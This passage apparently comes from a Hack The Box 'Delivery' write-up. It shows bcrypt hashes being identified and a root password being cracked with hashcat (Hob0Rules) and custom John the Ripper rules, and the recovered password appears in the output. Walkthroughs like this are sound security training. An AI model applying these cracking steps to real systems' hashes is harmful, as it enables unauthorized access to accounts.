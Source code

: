 ```bash
8 rows in set (0.000 sec)
```

Cracked the corresponding password for the root user using hashcat custom rules (variation of PleaseSubscribe!):

[Hob0Rules/d3adhob0.rule at master · praetorian-inc/Hob0Rules](https://github.com/praetorian-inc/Hob0Rules/blob/master/d3adhob0.rule)

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashid '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
Analyzing '$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashid maildeliverer-admin.passwd 
--File 'maildeliverer-admin.passwd'--
Analyzing '$2a$08$VlccTgoFaxEaGJnZtWwJBOf2EqMW5L1ZLA72QoQN/TrrOJt9mFGcy'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
--End of file 'maildeliverer-admin.passwd'-- 

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ echo 'PleaseSubscribe!' > base_passwords

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ cat mattermost-hashes.passwd| grep root > root.passwd

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ hashcat root.passwd base_passwords -m3200 -r d3adhob0.rule --force --username --separator ":"
hashcat (v6.1.1) starting...
...
$2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO:PleaseSubscribe!21
...
```

Cracked the corresponding password for the root user using john custom rules:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ sudo nano /etc/john/john.conf
...
[List.Rules:Custom]
:
# Add one number
$[0-9]
# Add one number and a sybol
$[0-9]$[$%^&*()\\-_+=|\<>\[\]{}#@/~]
# Add two number
$[0-9]$[0-9]
# Add two number and a symbol
$[0-9]$[0-9]$[$%^&*()\\-_+=|\<>\[\]{}#@/~]
...

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ john root.passwd --wordlist=base_passwords --rules=Custom --fork=5                
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Node numbers 1-5 of 5 (fork)
Each node loaded the whole wordfile to memory
Press 'q' or Ctrl-C to abort, almost any other key for status
```